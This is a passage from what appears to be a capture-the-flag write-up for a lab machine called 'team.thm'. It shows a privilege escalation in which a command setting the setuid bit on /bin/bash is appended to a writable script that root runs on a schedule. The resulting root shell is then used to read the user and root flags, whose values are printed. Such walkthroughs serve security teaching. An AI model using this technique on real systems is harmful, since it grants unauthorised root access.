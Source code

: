 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250320162821.png)

We can check root is running some scripts, let's try to modify the `script.sh` file:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250320163042.png)

We cannot write on this file directly but we can on the `main_backup.sh` one, let's send this to that file:

```
echo "chmod +s /bin/bash" >> /usr/local/bin/main_backup.sh
```

```
gyles@TEAM:~$ echo "chmod +s /bin/bash" >> /usr/local/bin/main_backup.sh
gyles@TEAM:~$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
chmod +s /bin/bash
```

Now, after a minute, we can enter a privileged bash session as root:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250320164122.png)

Let's read both flags:

```
bash-4.4# cat /home/dale/user.txt
THM{6Y0TXHz7c2d}
```

```
bash-4.4# cat /root/root.txt
THM{fhqbznavfonq}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250320164209.png)

